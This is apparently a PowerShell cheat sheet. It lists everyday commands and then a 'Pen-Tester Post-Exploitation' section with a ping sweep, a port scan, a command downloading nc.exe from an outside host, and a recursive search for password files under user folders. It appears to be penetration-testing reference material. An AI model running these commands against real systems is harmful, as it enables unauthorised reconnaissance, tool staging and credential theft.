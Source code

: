 **Get present directory (pwd, gl):**
```
PS C:\> Get-Location
```

**Get a process listing (ps, gps):**

```
PS C:\> Get-Process
```

**Get a service listing:**
```
PS C:\> Get-Service
```

**Formatting output of a command (Format-List):**

```
PS C:\> ls | Format-List –property name
```

**Paginating output:**
```
PS C:\> ls –r | Out-Host -paging
```
**Get the SHA1 hash of a file:**

```
PS C:\> Get-FileHash -Algorithm SHA1 file.txt
```

**Exporting output to CSV:**
```
PS C:\> Get-Process | Export-Csv procs.csv
```

PowerShell for Pen-Tester Post-Exploitation
---------

**Conduct a ping sweep:**
```
PS C:\> 1..255 | % {echo "10.10.10.$_";ping -n 1 -w 100 10.10.10.$_ | Select-String ttl}
```

**Conduct a port scan:**
```
PS C:\> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open!"} 2>$null
```

**Fetch a file via HTTP (wget in PowerShell):**
```
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","nc.exe")
```
**Find all files with a particular name:**
```
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt
```

**Get a listing of all installed Microsoft Hotfixes:**
```
PS C:\> Get-HotFix
```
